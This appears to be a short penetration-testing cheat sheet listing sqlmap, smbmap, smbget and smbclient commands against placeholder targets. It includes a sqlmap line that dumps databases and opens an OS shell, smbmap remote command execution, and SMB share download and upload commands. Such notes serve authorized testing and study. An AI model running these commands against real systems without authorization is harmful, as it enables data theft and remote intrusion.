 #Sqlmap
This enumeration technique can be limited by a firewall or query request limit.
Depending of the form method used the parameters vary.
```console
sqlmap -u <URL> -g -p <parameter> --dbms=<database_backend_name> --level=<1-5> --dump --os-shell
```
Example when applying to simple form with POST method with textarea and title msg:
```console
sqlmap -u <URL> --data=msg=1
```

#Smbmap
Useful flags
-L  to list shares
-d  to enumerate a domain
--download
--upload
-s  specify a share to enumerate

To check for a smb services and list of shares
```console
smbmap -H <target_IP> -L
```
Execute commands if you have permissions
```console
-x 'ipconfig /all'
```

A password is required with the option -U
```console
smbget -R smb://<target_ip>/<accessible_share> -U <user>
```
#Smbclient
Some flags:
-W  to specify WORKGROUP
-I  to specify IP address
-c  to execute commands, use semicolon for multiple commands
-U  username
-P  password
-N  no password
To download using the interactive prompt
```console
get <filename>
```
To upload using the interactive prompt
```console
put <filename>
```
[Samba-based scripts](https://github.com/SecureAuthCorp/impacket)

# To login to the smb share
A password is required
```console
smbclient //<target_IP>/<share> -U <user>
```
